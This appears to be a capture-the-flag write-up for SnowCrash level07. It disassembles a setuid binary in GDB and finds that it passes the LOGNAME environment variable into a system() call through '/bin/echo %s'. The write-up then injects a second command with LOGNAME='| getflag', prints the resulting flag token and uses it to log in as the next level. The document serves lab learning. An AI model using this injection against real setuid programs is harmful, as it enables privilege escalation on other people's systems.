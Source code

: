 # level07

- We login as user level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```
level07@SnowCrash:~$ ./level07
level07
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- The program calls `<getenv@plt>` after moving the address `0x8048680` on top of the stack.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` will thus save the value of the `LOGNAME` environment variable in the `eax` register, and this value will be passed as a parameter to the `<asprintf@plt>` function. Note that later, the address `0x8048688` will also be moved on top of the stack to be used by `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- Then, `<asprintf@plt>` will store in the `eax` register the address pointing to the string `/bin/echo %s`, where `%s` will be replaced by the contents of the `LOGNAME` environment variable.
The resulting string will be executed by calling `<system@plt>`, so:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
```

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

```
level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```